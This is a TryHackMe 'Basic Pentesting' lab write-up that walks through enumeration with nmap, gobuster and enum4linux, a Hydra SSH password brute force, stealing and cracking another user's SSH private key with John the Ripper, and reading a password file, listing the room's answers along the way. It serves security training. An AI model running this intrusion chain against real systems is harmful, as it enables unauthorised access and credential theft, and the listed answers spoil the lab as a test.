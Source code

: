 # TryHackMe - Basic Pentesting

> August 1, 2021

1. What is the name of the hidden directory on the web server(enter name without /)?

    Nmap:

        # Found open ports

        Command:
        $> nmap -sC -sV -oN nmap/inital 10.10.11.166

        Ports: {22, 80, 139, 445}
        
        # Found the directory

        Command:
        $> nmap -script http-enum.nse 10.10.11.166 

    Gobuster:

        # Found the directory

        Command:
        $> gobuster dir -u http://10.10.11.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  

    `Answer: /development/`

2. What is the username?

	enum4linux:

		# Found the username

        Command:
        $> enum4linux -a 10.10.11.166 | tee enum4linux.log

	`Answer: jan`

3. What is the password?

	Hydra:

		-l is 1 username -L is a file of usernames
		-p is 1 password -P is a file of passwords

        Command:
		$> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.11.166

	`Answer: armando`

	Now we can ssh jan@10.10.11.166 with the new password `'armando'`

4. What service do you use to access the server(answer in abbreviation in all caps)? 

	`Answer: SSH`

5. Enumerate the machine to find any vectors for privilege escalation.
	
	SCP:

		SCP is a command to copy files through ssh connection.

        Command:
		$> scp /linpeas.sh jan@10.10.11.166/dev/shm
		$> chmod +x linepeas.sh
	
	linPEAS:
        
        Command:
		$> ./linpeas.sh | tee linlog.txt
		discovered kay had a id_rsa private key available
		$> cd .ssh/
		$> cat id_rsa
		$> touch, nano kay_id_rsa
		$> chmod 600 kay_id_rsa 
		* Private keys like read only
		$> ssh -i kay_id_rsa kay@10.10.11.166
		* Need's a passphrase

	JohnTheRipper:

        Command:
		$> JohnTheRipper/run/ssh2john.py kay_id_rsa > forjohn.txt
		$> JohnTheRipper/run/john forjohn.txt --wordlist=rockyou.txt

	`Answer: beeswax`

6. What is the name of the other user you found(all lower case)? 

	enum4linux:

		# Found the username

        Command:
        $> enum4linux -a 10.10.11.166 | tee enum4linux.log

	`Answer: kay`

7. What is the final password you obtain? 

	SSH:

        Command:
		$> ssh -i kay_id_rsa kay@10.10.11.166
		* Use the passphrase: beeswax
		$> cat pass.bak

	`Answer: heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
